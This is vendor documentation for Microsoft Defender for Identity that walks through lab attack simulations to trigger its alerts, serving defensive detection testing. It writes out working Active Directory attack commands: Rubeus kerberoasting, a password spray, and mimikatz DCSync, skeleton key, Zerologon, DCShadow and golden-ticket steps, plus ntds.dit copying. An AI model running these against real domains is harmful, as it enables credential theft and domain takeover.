# Attack simulations for Microsoft Defender for Identity

Microsoft Defender for Identity is a powerful solution for detecting abnormal or suspicious activities from managed, unmanaged or even unknown machines targeting domain controllers.

When running a lab or a pentesting ensure your Defender for Identity configuration is well configured. Make sure that [sensors are installed on all domain controllers](sensor-settings.md) and are in a [healthy state](health-alerts.md). Also, check that [Windows Event collection](deploy/configure-windows-event-collection.md) is properly configured.

Many alerts require a machine learning period before generating alerts. You can avoid this by [removing the learning period for your tests](advanced-settings.md#removing-the-learning-period-for-alerts), or waiting the required period for each alert. The learning period is listed in the link to the details for each detection. 

The tests in this article simulate actual security events. Make sure to run all these tests on a test environment.

> [!WARNING]
> The third-party tools in this tutorial are presented for research purposes only. Microsoft does not own these tools and Microsoft cannot and does not guarantee or warranty their behavior. They are subject to change without notice. These tools should be run in a test lab environment only.

Then from a new machine (fresh install, managed, or unmanaged) try the following scenarios:

## Prerequisites

To replicate the alerts in this article, you 'll need access to a workstation in the domain associated with a domain controller that has the Defender for Identity sensor installed. 

## Network mapping reconnaissance (DNS)

For details about this alert, see [Network-mapping reconnaissance (DNS) (external ID 2007)](reconnaissance-discovery-alerts.md#network-mapping-reconnaissance-dns-external-id-2007).

> [!NOTE]
> To generate the alert again, perform the action from a different user or with a different command.

This reconnaissance is used by attackers to map your network structure and target interesting computers for later steps in their attack.

There are several query types in the DNS protocol. This Defender for Identity security alert detects suspicious requests, either requests using an AXFR (transfer) originating from non-DNS servers, or those using an excessive number of requests.


From your workstation, run:

```cmd
nslookup 
server MSDemoDC01.msdemo.local
ls -d msdemo.local
```

You should see activity in success or failure (connection refused) and the alert:  

  

Detail in the alert:


## User and IP address reconnaissance

For details about this alert, see [User and IP address reconnaissance (SMB) (external ID 2012)](reconnaissance-discovery-alerts.md#user-and-ip-address-reconnaissance-smb-external-id-2012).

In this detection, an alert is triggered when an SMB session enumeration is performed against a domain controller. Users and computers need at least to access the SYSVOL share in order to retrieve GPOs. Attackers can use this information to know where users recently signed in and move laterally in the network to get to a specific sensitive account.  

From your workstation, run:

```cmd
NetSess.exe MSDemo-DC01.msdemo.local
```

Tools available from: <https://www.joeware.net/freetools/tools/netsess/>  

You should see activity and the alert in the client machine timeline:  

  

Detail in the alert:  

  

## User and group membership reconnaissance (SAMR)

For details about this alert, see [User and Group membership reconnaissance (SAMR) (external ID 2021)](reconnaissance-discovery-alerts.md#user-and-group-membership-reconnaissance-samr-external-id-2021).

In this detection, user and group membership reconnaissance are used by attackers to map the directory structure and target privileged accounts for later steps in their attack using the SAMR protocol.

From your workstation, sign in as an admin user, and run:

```cmd
net user /domain 
net group /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain 
net group "Schema Admins" /domain
```

You should see activity and the alert in the user timeline:  

  

Detail in the alert:  



## Security principal reconnaissance (LDAP)

For details about this alert, see [Security principal reconnaissance (LDAP) (external ID 2038)](credential-access-alerts.md#security-principal-reconnaissance-ldap-external-id-2038).

In this detection, Defender for Identity looks for LDAP security principal reconnaissance, which is commonly used as the first phase of a Kerberoasting attack. Kerberoasting attacks are used to get a target list of Security Principal Names (SPNs), which attackers then attempt to get Ticket Granting Server (TGS) tickets for.

From your workstation, sign in as an admin user, and run the tools from the [ANSSI](https://www.ssi.gouv.fr/) (Agence nationale de la sécurité des systèmes d'information) for data collection:

`oradad.exe`

Tools available from: <https://github.com/ANSSI-FR/ORADAD/releases>

You should see the activities and the alert in the client machine timeline:  

  

Detail in the alert:  

  

## Honeytoken activity

For details about this alert, see [Honeytoken activity (external ID 2014)](credential-access-alerts.md#honeytoken-activity-external-id-2014).

This honeytoken account should be attractive for attackers (attractive name or sensitive group membership) and be left unused by your organization. Any activity from them might indicate malicious behavior (LDAP, NTLM or Kerberos logon attempts).

Try signing into your honeytoken account. For example, you might might used [MSTSC.exe](/windows-server/administration/windows-commands/mstsc) or an interactive logic.

You should see the logon activity and the alert in the honeytoken user timeline:  

  

Detail in the alert (failed logon attempt):  

  

## Active Directory attributes reconnaissance (LDAP)

For details about this alert, see [Active Directory attributes reconnaissance (LDAP) (external ID 2210)](reconnaissance-discovery-alerts.md#active-directory-attributes-reconnaissance-ldap-external-id-2210).

Active Directory LDAP attributes reconnaissance is used by attackers to gain critical information about the domain environment, such as accounts with DES or RC4 kerberos cipher, accounts with Kerberos Pre-Authentication disabled, and service accounts configured with Unconstrained Kerberos Delegation.

On a workstation, from adsisearcher (PowerShell) or any LDAP browser such as ldp.exe set the following LDAP filters:  

<!-- do we need an admin user?-->

`(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2097152)) FindAll()` => Enumerate accounts with Kerberos DES enabled

`(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304)) FindAll()` => Enumerate accounts with Kerberos Pre-Authentication disabled  

`(&(objectCategory=computer)(!(primaryGroupID=516)(userAccountControl:1.2.840.113556.1.4.803:=524288))) FindAll()` => Enumerate all servers configured for Unconstrained Delegation (Excluding DCs)  

`(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2))) FindAll()` => Enumerate all enabled accounts

Or run from a command line with admin rights:  

`repadmin /showattr * DC=msdemo,DC=local ou repadmin /showattr * DC=msdemo,DC=local /subtree /filter:"((&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*)))" /attrs:cn,msDs-AllowedToActOnBehalfOfOtherIdentity` => Enumerate servers configured for Resource Based Constrained Delegation

You should see the activities and the alert in the client machine timeline:  

  

Detail in the alert:  

  

## Account enumeration reconnaissance

For details about this alert, see [Account enumeration reconnaissance (external ID 2003)](reconnaissance-discovery-alerts.md#account-enumeration-reconnaissance-external-id-2003).

In this alert, an attacker makes Kerberos (or NTLM) requests using a list of names to try to find a valid username in the domain. If a guess successfully determines a username, the attacker gets the Preauthentication required instead of Security principal unknown Kerberos error or the WrongPassword (0xc000006a) instead of NoSuchUser (0xc0000064) NTLM error.

Build a *users.txt* list of fake names, and add some valid names from your organization.

Then, run the following command from a PowerShell session on a workstation:  

```powershell
Import-Module .\adlogin.ps1
adlogin users.txt msdemo.local P@ssw0rd!
```

Tools available from <https://github.com/InfosecMatter/Minimalistic-offensive-security-tools>

You should see the activities and the alert in the client machine timeline:  

  

Detail in the alert:  

  

## Suspected Kerberos SPN exposure  

For details about this alert, see [Suspected AS-REP Roasting attack (external ID 2412)](credential-access-alerts.md#suspected-as-rep-roasting-attack-external-id-2412).

In this detection, Defender for Identity looks if an attacker uses tools to enumerate service accounts and their respective SPNs (Service Principal Names), request a Kerberos service ticket for the services, capture the Ticket Granting Service (TGS) tickets from memory and extract their hashes, and save them for later use in an offline brute force attack.  

From a command line on a workstation run:  

```cmd
Rubeus.exe kerberoast
Rubeus.exe kerberoast /tgtdeleg  
Rubeus.exe asktgs /service:http/msdemo-CM01.msdemo.local /ptt 
```

Tools available from: <https://github.com/GhostPack/Rubeus> or <https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/tree/master/dotnet%20v4.5%20compiled%20binaries>

You should see the activities and the alert in the user timeline:  

  

Detail in the alert:  

  

## Suspected Brute-Force Attack (Kerberos, NTLM and LDAP) & Password Spray attack

For details about this alert, see [Suspected Brute Force attack (Kerberos, NTLM) (external ID 2023)](credential-access-alerts.md#suspected-brute-force-attack-kerberos-ntlm-external-id-2023).

In this detection, an alert is triggered when many authentication failures occur using Kerberos, NTLM, or use of a password spray is detected. Using Kerberos or NTLM, this type of attack is typically committed either horizontal, using a small set of passwords across many users, vertical with a large set of passwords on a few users, or any combination of the two.

From a command line on a workstation, run:

```cmd
net user /domain >users.txt
```

This will retrieve the list of users in your domain. The result needs to be in one column.

From a PowerShell command line on a workstation, run:  

```powershell
Import-Module .\adlogin.ps1 
adlogin users.txt msdemo.local P@ssw0rd
```

This is for a password spray attack by using one carefully crafted password against all of the known user accounts (one password to many accounts).

You should see the activities and the alert in the client machine timeline:  

  

Detail in the alert:  

  

For a brute force attack, try to sign on to a few accounts with multiple passwords.

You should see the activities and the alert in the client machine timeline:  

  

Detail in the alert:  



## Malicious request of Data Protection API (DPAPI) master key

For details about this alert, see [Malicious request of Data Protection API master key (external ID 2020)](credential-access-alerts.md#malicious-request-of-data-protection-api-master-key-external-id-2020).

DPAPI is used by Windows to securely protect passwords saved by browsers, encrypted files, a certificate's private key, and other sensitive data. Domain controllers hold a backup master key (RSA 2048) that can be used to decrypt all secrets encrypted with DPAPI on domain-joined Windows machines.

This is needed when a user password is reset. The blob with sensitive data can't be decrypted with the new password so a domain controller must retrieve the data using the master key.

Attackers can use the master key to decrypt any secrets protected by DPAPI on all domain-joined machines. In this detection, a Defender for Identity alert is triggered when the DPAPI is used to retrieve the backup master key.  

If you have Microsoft Defender for Endpoint, turn it off to run this test.

From a command line on workstation run with an admin account:  


```cmd
mimikatz # privilege::debug
mimikatz # lsadump::backupkeys /system:msdemo-DC01 /export 
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

You should see the activities and the alert in the user timeline:  

  

Detail in the alert:  

  

## Suspected skeleton key attack (encryption downgrade)

For details about this alert, see [Suspected skeleton key attack (encryption downgrade) (external ID 2010)](persistence-privilege-escalation-alerts.md#suspected-skeleton-key-attack-encryption-downgrade-external-id-2010).

Skeleton Key is malware that runs on domain controllers and allows authentication to the domain with any account without knowing its password. This malware often uses weaker encryption algorithms to hash the user's passwords on the domain controller.
It means the attacker can use the same password for any Active Directory accounts without the need to reset or change the original account's password.

In this alert, the learned behavior of previous KRB_ERR message encryption from the domain controller to the account requesting a ticket was downgraded.

> [!WARNING]
> Make sure that you're working in a testing environment, and not with a production domain controller. Once the domain controller is impacted, there is no easy rollback, and the domain controller must be demoted.

From a command line on a workstation with a shell on a domain controller, run as a domain admin:

```cmd
mimikatz # privilege::debug 
mimikatz # misc::skeleton 
```

The master password should be *mimikatz*.

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

  

## Suspected Netlogon privilege elevation attempt (CVE-2020-1472 exploitation)

For details about this alert, see [Suspected Netlogon privilege elevation attempt (CVE-2020-1472 exploitation) (external ID 2411)](persistence-privilege-escalation-alerts.md#suspected-netlogon-privilege-elevation-attempt-cve-2020-1472-exploitation-external-id-2411).
  
The alert is triggered if an attacker attempts to establish a vulnerable Netlogon secure channel connection to a DC, using the Netlogon Remote Protocol (MS-NRPC), also known as Netlogon Elevation of Privilege Vulnerability.

From a command line on a workstation, run with a local admin account:

```cmd
mimikatz # privilege::debug 
mimikatz # lsadump::zerologon /server:msdemo-DC01.msdemo.local /account:msdemo-DC01$ /exploit  
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

  

## Suspicious network connection over Encrypting File System Remote Protocol

For details about this alert, see [Suspicious network connection over Encrypting File System Remote Protocol (external ID 2416)](lateral-movement-alerts.md#suspicious-network-connection-over-encrypting-file-system-remote-protocol-external-id-2416).

This detection is triggered when an attacker tries to take over an Active Directory domain by exploiting a flaw in the Encrypting File System Remote (EFSRPC) Protocol.

From a command line on a workstation, run with a local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # misc::efs /server:10.4.0.100 /connect:10.4.0.13 /noauth
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  



## Suspected DCSync attack (replication of directory services)

For details about this alert, see [Suspected DCSync attack (replication of directory services) (external ID 2006)](credential-access-alerts.md#suspected-dcsync-attack-replication-of-directory-services-external-id-2006).

If attackers have the *DS-Replication-Get-Changes-All* permission, they can initiate a replication request to retrieve the data stored in Active Directory, such as the krbtgt's password hash.

In this detection, an alert is triggered when a replication request is initiated from a computer that isn't a domain controller.  

From a command line on a workstation, run with a least local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt
```

This will retrieve the krbtgt's password hash and move to a golden ticket attack.

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

You should see the activities and the alert in the client machine timeline:  

  

In the alert, a user failed to retrieve the DCsync (not enough permission):  

  

## Suspected DCShadow attack (domain controller promotion) & (domain controller replication request)

For details about this alert, see [Suspected DCShadow attack (domain controller promotion) (external ID 2028)](other-alerts.md#suspected-dcshadow-attack-domain-controller-promotion-external-id-2028) and [Suspected DCShadow attack (domain controller replication request) (external ID 2029)](other-alerts.md#suspected-dcshadow-attack-domain-controller-replication-request-external-id-2029).

Two alerts are available, but we'll focus only on the *Domain controller replication request* alert. In this scenario, attackers try to initiate a malicious replication request, allowing them to change Active Directory objects on a genuine domain controller, which can give the attackers persistence in the domain.

From a command line on a workstation, run with a domain admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # lsadump::dcshadow /object:krbtgt /attribute=ntPwdHistory /value:0000000000 
mimikatz # lsadump::dcshadow /push  
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

  

## Remote code execution attempts

For details about this alert, see [Remote code execution attempt (external ID 2019)](other-alerts.md#remote-code-execution-attempt-external-id-2019).

Defender for Identity detects PSexec, Remote WMI, and PowerShell connections from a client machine to a domain controller. Attackers can execute remote commands on your domain controller or Active Directory Federation Services (AD FS) server to create persistence, collect data or perform a denial of service (DOS).

From a command line on a workstation, run with a domain admin account:  

```cmd
PSExec.exe -s -i \\msdemo-dc01 powershell.exe  
```

This will start a PowerShell session on the domain controller.

Tools available from: [Sysinternals downloads](/sysinternals/downloads/)

Detail in the alert:  



## Data exfiltration over SMB

For details about this alert, see [Data exfiltration over SMB (external ID 2030)](other-alerts.md#data-exfiltration-over-smb-external-id-2030).

This alert is triggered when suspicious transfers of data are observed from your monitored domain controllers, such as when an attacker copies the ntds.dit file from a domain controller to a workstation.

From a command line on a workstation, run with a domain admin account:  

`PSEexec -s -i \\msdemo-DC01 cmd.exe` => to get a cmd session on a domain controller

`Esentutl /y /i c:\windows\ntds\ntds.dit /d c:\windows\ntds.dit` => to get a copy of the ntds.dit file for an exfiltration

Copy the ntds.dit file from the DC to your workstation (Z:).

Tools available from: [Sysinternals downloads](/sysinternals/downloads/)

Detail in the alert:  



Keep in mind that Defender for Identity can also track files uploaded from workstation or server to a domain controller. This can be useful to detect abnormal activities. You should see this type of activities from the user timeline:  

  

## Suspected Golden Ticket usage (encryption downgrade) & (nonexistent account) & (Time anomaly)

For details about this alert, see [Suspected Golden Ticket usage (encryption downgrade) (external ID 2009)](persistence-privilege-escalation-alerts.md#suspected-golden-ticket-usage-encryption-downgrade-external-id-2009), [Suspected Golden Ticket usage (nonexistent account) (external ID 2027)](persistence-privilege-escalation-alerts.md#suspected-golden-ticket-usage-nonexistent-account-external-id-2027), and [Suspected Golden Ticket usage (time anomaly) (external ID 2022)](persistence-privilege-escalation-alerts.md#suspected-golden-ticket-usage-time-anomaly-external-id-2022).

Defender for Identity can detect six types of Golden Ticket attacks. Let's see two of them.

Using the krbtgt's password hash from the DCsync attackers can now create a Kerberos ticket granting ticket (TGT) that provides authorization to any resource and set the ticket expiration to any arbitrary time. This fake TGT is called a "Golden Ticket" and allows attackers to achieve network persistence.  

From a command line on a workstation, run with a local admin account:  

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt`  => to get the krbgt's password hash needed for the /rc4
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:administrator /id:500 /groups:513,512,520,518,519 /ticket:administrator.kirbi` => create a fake TGT for the default administrator account (RID=500) and add sensitive RID groups  
`mimikatz # kerberos::ptt administrator.kirbi` => load the fake TGT  
`mimikatz # misc::cmd` => open a cmd  
`klist` => check if the TGT is loaded  
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for encryption downgrade detection

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt` => to get the krbgt's password hash needed for the /rc4:...  
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:XYZ /id:500 /groups:513,512,520,518,519,1107 /ticket:XYZ.kirbi` => create a fake TGT for the nonexistent account and add sensitive RID groups (valid for 2àmn)
`mimikatz # kerberos::ptt XYZ.kirbi` => load the fake TGT
`klist` => check if the TGT is loaded
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for nonexistent account detection  

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

  
  

## Suspicious additions to sensitive groups

For details about this alert, see [Suspicious additions to sensitive groups (external ID 2024)](persistence-privilege-escalation-alerts.md#suspicious-additions-to-sensitive-groups-external-id-2024).

Attackers could add users to highly privileged groups to gain access to more resources, and gain persistency. This alert needs a machine learning period (such as: this user usually doesn't perform this addition to sensitive groups).

From a workstation with RSAT, start with a domain admin account:  

`dsa.msc`  => and add a user to a sensitive group such as Enterprise Admins or Domain Admins  

Tools available from: <https://www.microsoft.com/download/details.aspx?id=45520>  

You should see the activities and the alert in the user timeline:  

  

Detail in the alert:  

  

## Next steps

- [Microsoft Defender for Identity Security Alerts](alerts-overview.md)
